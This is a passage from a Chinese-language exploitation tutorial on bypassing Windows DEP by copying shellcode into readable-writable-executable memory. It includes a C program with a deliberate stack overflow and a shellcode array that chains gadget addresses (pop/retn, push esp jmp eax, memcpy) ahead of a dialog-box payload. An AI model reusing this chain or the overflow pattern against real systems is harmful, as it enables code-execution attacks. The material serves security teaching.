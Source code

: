 最后是 0x0003000F 的对[EAX]操作，如果 0x00030010 处使用 0x90 填充，结果就是对[EAX+0x909094FC]操作，这会引发异常，所以我们使用 0x00 填充 0x00030010，避免出现异常。现在大家应该明白 shellcode 中那些特殊的填充了吧。

>题外话：实际上我们有种更简单的方法来处理掉这些垃圾指令，从图 12.3.30 中大家可以看到我们弹出对话框的机器码起始地址为 0x00030014，我们在可以让 memcpy 函数返回时直接跳转到这个位置，跃过前边的垃圾指令。在这我们之所以使用复杂的方法，是为了给大家介绍在一些特殊情况下 shellcode 的特殊处理思路。


## 利用可执行内存挑战DEP

有时，在进程的内存空间中会存在一段可读可写可执行的内存。使用OllyDbg等调试工具的内存窗口的“Access”列可以看到如“RWE”，即表示可读可写可执行。

如果我们能够将 shellcode 复制到这段内存中，并劫持程序流程，我们的 shellcode 就有执行的机会。

这种方法的实现难度要比前面三种方法小的多，不需要费尽心思地设置内存属性、申请可执行的内存空间……这里所需要的是一点点运气：假使被攻击的程序内存空间中存在这样一个可执行的数据区域，就可以直接通过 memcpy 函数将 shellcode 复制到这段内存区域中执行。我们通过以下代码来分析这种绕过 DEP 的方法。

```c
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>
char shellcode[]=
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    //"……"
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7C"//pop eax retn
    "\x0B\x1A\xBF\x7C"//pop pop retn
    "\xBA\xD9\xBB\x7C"//修正 EBP retn 4
    "\x5F\x78\xA6\x7C"//pop retn
    "\x08\x00\x14\x00"//可执行内存中弹出对话框机器码的起始地址
    "\x00\x00\x14\x00"//可执行内存空间地址，复制用
    "\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址.eax 当前应为shellcode起始位置（自test函数调用后未变），所以一旦jmp eax，则跳转回此段shellcode最前端，这会触发DEP异常。所以在修正EBP之前要修正eax为可执行内存地址。
    "\xFF\x00\x00\x00"//shellcode 长度
    "\xAC\xAF\x94\x7C"//memcpy
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    //"……"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
    ;
void test()
{
    chartt[176];
    memcpy(tt,shellcode,450);
}
int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
} 
```

对实验思路和代码简要解释如下:
